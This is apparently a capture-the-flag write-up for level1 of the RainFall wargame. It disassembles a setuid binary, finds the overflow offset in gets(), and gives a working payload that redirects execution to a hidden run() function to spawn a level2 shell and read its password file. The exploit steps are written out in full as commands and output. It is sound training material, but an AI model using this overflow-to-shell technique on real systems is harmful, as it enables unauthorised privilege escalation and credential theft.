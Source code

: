 ```sh
level1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
level1@RainFall:~$ ./level1
42
level1@RainFall:~$ ./level1 42
42
level1@RainFall:~$ 
```
There is one excutable file **level1**, it works like cat, take standard input and shutting down program. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
...
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
...
```
```sh
(gdb) disas main
   Dump of assembler code for function main:
   0x08048480 <+0>:        push      %ebp
   0x08048481 <+1>:        mov       %esp,%ebp
   0x08048483 <+3>:        and       $0xfffffff0,%esp
   0x08048486 <+6>:        sub       $0x50,%esp # space for local variable
   0x08048489 <+9>:        lea       0x10(%esp),%eax # one variable 0x50 - 0x10 = 0x40 = 64
   0x0804848d <+13>:       mov       %eax,(%esp)
   0x08048490 <+16>:       call      0x8048340 <gets@plt>
   0x08048495 <+21>:       leave  
   0x08048496 <+22>:       ret   
End of assembler dump.
```
We can see one function name of run() with ```info functions```, but in the main function there is no trigger to jump in run function. what is in there?
```sh
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax # stdout
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax # "Good... Wait what?\n"
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp) # 19
   0x08048462 <+30>:    movl   $0x1,0x4(%esp) # 1
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt> # fwrite("Good... Wait what?\n", 1, 19, stdout)
   0x08048472 <+46>:    movl   $0x8048584,(%esp) # "/bin/sh"
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave  
   0x0804847f <+59>:    ret    
```
Ohh.. in the run+53, there is a system call, so we should run ```run()``` function? \
We can check what is in there.
```sh
(gdb) x/s 0x8048584
0x8048584:       "/bin/sh"
```
INTERESTING! \
So we need run the function which is not called, but how?

The hint is in ```gets()``` function, which has ```buffer overflow``` vulnerability because it never specifies the read buffer size.

Since we know that we can use ```buffer overflow```, we can try to find exact location where to insert address of ```run()``` function to call it. \
For this, we wrote python script to find easier location of buffer overflow,
```sh
python level1/Ressources/helper.py
=== Buffer Overflow Pattern Generator & Offset Finder ===
Enter the length of the pattern to generate: 100
Generated pattern (100 bytes):
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2a
...
```
```sh
level1@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac"' > /tmp/exploit1
level1@RainFall:~$ gdb level1
(gdb) r < /tmp/exploit1
Starting program: /home/user/level1/level1 < /tmp/exploit1

Program received signal SIGSEGV, Segmentation fault.
0x63613563 in ?? ()
```
We can find weird address at the moment of segmentation fault, ```0x63613563```, this mean the EIP register is corrupted by buffer. \
The linux system save the data in the lowest byte order, which is called **Little Endian**. So we have to read that address in reverse, ```0x63```, ```0x35```, ```0x61```, ```0x63``` which is "c5ac" in ASCII. \
In the python script, we can find easily the exact offset location of string,
```sh
Enter the value to find (e.g., 'aa1aa2'): c5ac
'c5ac' found at offset: 76
```
So from offset 76, everything that comes after will be counted as ```buffer overflow```. \
After, simply, we just have to put the address ```run()``` function, after 76 offset in the reverse order.
```sh
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
```
in this case also, we need convert the address by little endian form,
```...ac4a\x44\x84\x04\x08```
```sh
level1@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4a\x44\x84\x04\x08"' > /tmp/exploit1
level1@RainFall:~$ cat /tmp/exploit1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass            
(hidden)
```
level1 passed!

